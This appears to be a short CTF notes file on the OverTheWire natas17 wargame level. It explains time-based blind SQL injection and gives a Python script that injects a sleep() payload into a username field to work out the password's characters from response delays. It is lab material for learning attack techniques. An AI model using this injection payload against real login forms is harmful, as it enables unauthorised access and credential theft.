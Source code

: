  # CTF Notes

source: https://www.abatchy.com/2016/12/natas-level-17
From the natas17 challenge. Bruteforce password through SQL injection though there is not output. If there is no output use the `AND sleep()` command in the query to control the response time. If the query was correct i.e char is in there, the `sleep()` will trigger and the response time will be slower. This can be checked in python using `requests`.

```py
import requests
from requests.auth import HTTPBasicAuth

url = "http://natas17.natas.labs.overthewire.org/index.php?debug"
auth_user = "natas17"
auth_pass = "<censored>"

chars = "abcdefghijklmnopqrstuvwyxzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
filtered = ""
passwd = ""


for char in chars: # checks which characters are in the password
    # if the query is successful it will add a 1 second relay
    input_data = {"username": 'natas18" and password LIKE BINARY "%{}%" AND sleep(1) # '.format(char)}
    r = requests.post(url, auth=HTTPBasicAuth(auth_user, auth_pass), data=input_data)
    if "01." in str(r.elapsed): # "01." specifies that the response took 1 second, from sleep(), can increase if network is slower
        print(r.elapsed, char)
        filtered += char

```
